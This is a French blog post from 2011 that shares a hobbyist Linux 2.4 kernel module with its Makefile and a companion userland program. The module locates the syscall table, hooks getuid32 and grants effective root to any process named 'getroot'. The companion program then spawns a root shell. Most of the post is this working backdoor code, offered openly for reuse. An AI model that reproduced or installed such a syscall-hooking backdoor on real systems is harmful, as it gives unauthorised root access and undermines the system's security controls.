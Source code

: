 ```yaml
---
title: "Linux kernel module 2.4 : getroot"
tags: [Coding, kernel]
---
```


J'ai sur une clé usb plusieurs modules kernels que j'avais bidouillé à une époque (il y a plus d'un an) histoire de m'amuser un peu.  

Les codes en question sont loin d'être des exemples de stabilité et ne compilent pas sous du 2.6... Faute de temps et de volonté, je ne suis pas retourné depuis dans la programmation kernel bien que je ne refuse pas de lire un article sur le sujet quand il me tombe sous le nez.  

En espérant qu'ils puissent encore servir à quelques-uns je les mets en ligne.  

Le module ci-dessous permet (une fois installé) d'obtenir les privilèges root. Il suffit de créer un programme nommé `getroot` qui fera un appel à `getuid()`, du moins la version hookée et modifiée par nos soins :  

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/sched.h>
#include <linux/unistd.h> /* __NR_close */
#include <linux/smp_lock.h> /* unlock_kernel */
#include <linux/syscalls.h> /* sys_close */

/* __NR_getuid faisait appel a sys_getuid16 (adresse dans System.map) : on se sert explicitement de __NR_getuid32 */
void **sys_call_table;

int (*orig_getuid)(void);
int my_getuid(void)
{
  printk(KERN_INFO "Appel a getuid()\n");
  if(strlen(current->comm)==7)
  {
    if(strncmp(current->comm, "getroot", 7) == 0)
    {
      printk(KERN_INFO "Giving root :)\n");
      current->euid=0;
      current->egid=0;
    }
  }
  return current->uid;
}

unsigned long **find_sys_call_table(void)
{
   unsigned long **sctable;
   unsigned long ptr;
   extern int loops_per_jiffy;

   sctable = NULL;
   for (ptr = (unsigned long)&unlock_kernel;
        ptr < (unsigned long)&loops_per_jiffy;
        ptr += sizeof(void *))
   {
      unsigned long *p;
      p = (unsigned long *)ptr;
      if (p[__NR_close] == (unsigned long) sys_close)
      {
         sctable = (unsigned long **)p;
         return &sctable[0];
      }
   }
   return NULL;
}

int init_module(void)
{
  printk(KERN_INFO "hook loaded\n");
  sys_call_table=(void**)find_sys_call_table();
  if(sys_call_table!=NULL)
  {
    printk(KERN_INFO "sys_call_table=%p\n",sys_call_table);
    printk(KERN_INFO "__NR_getuid32=%d\n",__NR_getuid32);
    printk(KERN_INFO "sys_call_table[__NR_getuid32]=%p\n",sys_call_table[__NR_getuid32]);
    orig_getuid=(int(*)(void))(sys_call_table[__NR_getuid32]);
    sys_call_table[__NR_getuid32]=my_getuid;
  }

  return 0;
}

void cleanup_module(void)
{
  if(sys_call_table!=NULL)
  {
    sys_call_table[__NR_getuid32]=orig_getuid;
  }
  printk(KERN_INFO "hook unloaded\n");
}
```

Le Makefile ressemblait à ça :  

```make
obj-m += hook.o

all:
  make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
  make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

Et le programme userland était tout simplement :  

```c
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>

int main(int argc,char *argv)
{
  char * param[] = {"/bin/sh", NULL};
  getuid();
  execve(param[0], param, NULL); //execve est déja un appel système
  return 0;
}
```


*Published January 11 2011 at 17:30*
